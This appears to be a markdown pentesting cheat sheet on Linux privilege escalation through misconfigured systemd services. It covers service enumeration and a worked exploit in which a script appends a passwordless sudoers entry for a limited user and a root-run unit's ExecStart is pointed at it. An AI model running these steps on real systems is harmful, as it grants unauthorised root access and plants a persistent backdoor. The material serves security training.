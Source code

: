 #### What is a Service
Services are **processes or applications running in the background** on a Linux system, often triggered by schedules or specific events rather than direct user actions. They are typically made up of **daemons** and can be essential system components or user-configured tasks.

Since many services are run with high privileges (e.g., as `root`), any misconfiguration can present an opportunity for privilege escalation.

#### Finding Services
**Enumerate a system for Service**
```bash
systemctl list-units --type=service
```

**Start a stopped service**
```bash
systemctl start [service]
```

#### Pspy Tool
```bash
./pspy
```

---
### Exploit a Service with Weak Permissions
**Create a new Bash Script to replace the current one.**
```bash
vim <exploit.sh>
```

**Add the limited user to the `sudoers` list.**
```bash
#!/bin/bash
echo "<username> ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

**Make the new Bash Script Executable**
```bash
chmod +x <exploit.sh>
```

#### Replace the `ExecStart` in the vulnerable `Service` to call your script (`exploit.sh`)
```bash
[Unit]
Description=This is a vulnerable service!
DefaultDependencies=no
After=network.target

[Service]
Type=simple
User=root
Group=root
ExecStart=/home/<username>/exploit.sh
TimeoutStartSec=0
RemainAfterExit=yes

[Install]
WantedBy=default.target
```

Once the `Service is restarted`, the exploit.sh script will now run as root, updating the permission of the user.

#### Escalate the Privilege
```bash
sudo su
```